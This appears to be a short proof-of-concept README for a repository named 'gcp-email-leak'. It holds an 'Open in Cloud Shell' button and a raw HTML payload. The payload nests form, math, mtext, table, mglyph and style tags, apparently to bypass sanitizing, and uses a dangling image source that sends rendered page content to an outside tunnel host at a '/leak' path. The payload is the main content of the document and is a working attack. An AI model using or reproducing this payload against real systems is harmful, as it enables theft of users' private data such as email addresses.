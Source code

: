 [![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?show=ide&cloudshell_git_repo=https://github.com/Nowasky/gcp-email-leak&open_in_editor=README.md)

<form><math><mtext><table><mglyph><style><img/src='https://green-wombat-43.loca.lt/leak?</style><img/src>'>
